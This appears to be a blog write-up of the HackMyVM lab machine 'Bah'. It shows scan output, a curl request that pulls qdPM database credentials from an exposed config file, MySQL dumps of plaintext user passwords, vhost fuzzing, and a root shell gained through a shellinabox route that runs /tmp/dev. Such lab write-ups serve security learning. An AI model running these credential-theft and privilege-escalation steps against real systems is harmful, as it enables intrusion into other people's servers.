 ```yaml
---
layout: post
author: canarinho
title:  "Bah"
date:   2022-01-01 09:32:26 PM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Bah)

## Scanning and Fuzzing

{% highlight text  %}
Starting Nmap 7.92 ( <https://nmap.org> ) at 2021-12-27 15:56 -03
Nmap scan report for bah (192.168.15.95)
Host is up (0.0027s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-title: qdPM | Login
|_http-server-header: nginx/1.18.0
3306/tcp open  mysql   MySQL 5.5.5-10.5.11-MariaDB-1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.5.11-MariaDB-1
|   Thread ID: 34
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, LongColumnFlag, SupportsCompression, Speaks41ProtocolOld, SupportsTransactions, SupportsLoadDataLocal, IgnoreSigpipes, DontAllowDatabaseTableColumn, InteractiveClient, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, FoundRows, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: ,TFAQU8V)eDcGwC&4sh0
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:3C:48:35 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
{% endhighlight  %}

{% highlight bash  %}
ffuf -u <http://192.168.15.95/FUZZ> -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -e .txt,.js,.sql,.php
	index.php               [Status: 200, Size: 5664, Words: 569, Lines: 146]
	readme.txt              [Status: 200, Size: 470, Words: 60, Lines: 13]
	check.php               [Status: 200, Size: 0, Words: 1, Lines: 1]
	robots.txt              [Status: 200, Size: 26, Words: 2, Lines: 3]
{% endhighlight  %}

Checking `http://192.168.15.95/readme.txt`

{% highlight text  %}
qdPM
open source project management software written in symfony framework
<http://qdpm.net>

INSTALLATION
qdPM is web-based application and it means you have to have web-server.
Simply go to your qdPM web directory and use installer

SUPPORT
Contact me (support@qdpm.net) if you have any questions, suggestions or feedback about qdPM.
My name is Sergey. I always reply to emails within 24-48 hours.

Thanks for downloading and using qdPM open-source solution!
{% endhighlight  %}

## Getting User

`searchsploit -m php/webapps/50176.txt`

The password is storaged on a unauthenticated file, easy to download.

{% highlight bash  %}
curl <http://192.168.15.95/core/config/databases.yml>

	all:
	  doctrine:
	    class: sfDoctrineDatabase
	    param:
	      dsn: 'mysql:dbname=qpm;host=localhost'
	      profiler: false
	      username: qpmadmin
	      password: "<?php echo urlencode('qpmpazzw') ; ?>"
	      attributes:
	        quote_identifier: true

{% endhighlight  %}

So, we got the qpmadmin creds.

{% highlight text  %}
qpmadmin:qpmpazzw
{% endhighlight  %}

Using them to access the mysql server, we got some vhosts and users.

{% highlight sql  %}
use hidden;
select *  from url;
+----+-------------------------+
| id | url                     |
+----+-------------------------+
|  1 | [http://portal.bah.hmv](http://portal.bah.hmv/)   |
|  2 | [http://imagine.bah.hmv](http://imagine.bah.hmv/)  |
|  3 | [http://ssh.bah.hmv](http://ssh.bah.hmv/)      |
|  4 | [http://dev.bah.hmv](http://dev.bah.hmv/)      |
|  5 | [http://party.bah.hmv](http://party.bah.hmv/)    |
|  6 | [http://ass.bah.hmv](http://ass.bah.hmv/)      |
|  7 | [http://here.bah.hmv](http://here.bah.hmv/)     |
|  8 | [http://hackme.bah.hmv](http://hackme.bah.hmv/)   |
|  9 | [http://telnet.bah.hmv](http://telnet.bah.hmv/)   |
| 10 | [http://console.bah.hmv](http://console.bah.hmv/)  |
| 11 | [http://tmux.bah.hmv](http://tmux.bah.hmv/)     |
| 12 | [http://dark.bah.hmv](http://dark.bah.hmv/)     |
| 13 | [http://terminal.bah.hmv](http://terminal.bah.hmv/) |
+----+-------------------------+

select * from users;
+----+---------+---------------------+
| id | user    | password            |
+----+---------+---------------------+
|  1 | jwick   | Ihaveafuckingpencil |
|  2 | rocio   | Ihaveaflower        |
|  3 | luna    | Ihavealover         |
|  4 | ellie   | Ihaveapassword      |
|  5 | camila  | Ihaveacar           |
|  6 | mia     | IhaveNOTHING        |
|  7 | noa     | Ihaveflow           |
|  8 | nova    | Ihavevodka          |
|  9 | violeta | Ihaveroot           |
+----+---------+---------------------+
{% endhighlight  %}

In order to figure out which vhost is the right one, lets fuzzing.

{% highlight bash  %}
ffuf -u <http://192.168.15.95/> -c -w urls.txt -t 30 -H "host: FUZZ"

	party.bah.hmv           [Status: 200, Size: 5216, Words: 1247, Lines: 124]
	ssh.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146]
	imagine.bah.hmv         [Status: 200, Size: 5659, Words: 569, Lines: 146]
	telnet.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146]
	ass.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146]
	console.bah.hmv         [Status: 200, Size: 5659, Words: 569, Lines: 146]
	terminal.bah.hmv        [Status: 200, Size: 5661, Words: 569, Lines: 146]
	here.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146]
	hackme.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146]
	tmux.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146]
	dark.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146]
	dev.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146]
	portal.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146]

{% endhighlight  %}

`party.bah.hmv` has more words, so that’s the one.

Try to login using the users that we already got until succeeded.

{% highlight text  %}
rocio:Ihaveaflower ← this is the guy!
{% endhighlight  %}

Reverse shell it, and toplay no hatchofly, thank you!!

{% highlight text  %}
user.txt 	->	HdsaMoiuVdsaeqw
{% endhighlight  %}

## Privesc

Searching for something on process we found the follow:

{% highlight bash  %}
ps aux

shellin+     439  0.0  0.3   7484  3196 ?        Ss   09:40   0:00 /usr/bin/shellinaboxd -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 4200 -u shellinabox -g shellina
shellin+     440  0.0  0.2   7152  2528 ?        S    09:40   0:00 /usr/bin/shellinaboxd -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 4200 -u shellinabox -g shellina
{% endhighlight  %}

Let’s check the cmdline file, using the pid to find on `/proc`

{% highlight text  %}
rocio@bah:~$ cat /proc/439/cmdline
/usr/bin/shellinaboxd-q--background=/var/run/shellinaboxd.pid-c/var/lib/shellinabox-p4200-ushellinabox-gshellinabox--user-cssBlack on White:+/etc/shellinabox/options-enabled/00+Black on White.css,White On Black:-/etc/shellinabox/options-enabled/00_White On Black.css;Color Terminal:+/etc/shellinabox/options-enabled/01+Color Terminal.css,Monochrome:-/etc/shellinabox/options-enabled/01_Monochrome.css--no-beep--disable-ssl--localhost-only-s/:LOGIN-s/devel:root:root:/:/tmp/dev

{% endhighlight  %}

Note that when [`http://party.bah.hmv/devel`](http://party.bah.hmv/devel) is accessed the `/tmp/dev` will be executed.

So, access [`http://party.bah.hmv/devel`](http://party.bah.hmv/devel) and get the root shell. Tchupacky two play no ratchofly. It’s us!!

{% highlight text  %}
root.txt 	->	HMVssssshell323
{% endhighlight  %}

See you!! Bjos!